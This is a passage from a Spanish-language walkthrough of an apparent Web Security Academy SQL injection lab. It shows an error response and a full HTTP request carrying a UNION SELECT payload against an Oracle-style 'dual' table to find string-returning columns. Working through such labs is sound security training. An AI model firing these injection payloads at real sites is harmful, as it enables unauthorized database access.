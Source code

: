 Ambas peticiones previas responden con un error:

```
HTTP/2 500 Internal Server Error
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2391

```

Pero al intentar retornar STRING en ambos campos se logra retornar exitosamente:

```
GET /filter?category='+UNION+SELECT+'Spartan','Cybersecurity'+FROM+dual-- HTTP/2
Host: 0a76002004acf6bd82c6fb1900d600e1.web-security-academy.net
Cookie: session=4r7p479MteGfJHw186eSSaLBr06RDplw
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: es-CO
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a76002004acf6bd82c6fb1900d600e1.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

Lo anterior responde asi:

<figure><img src="../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
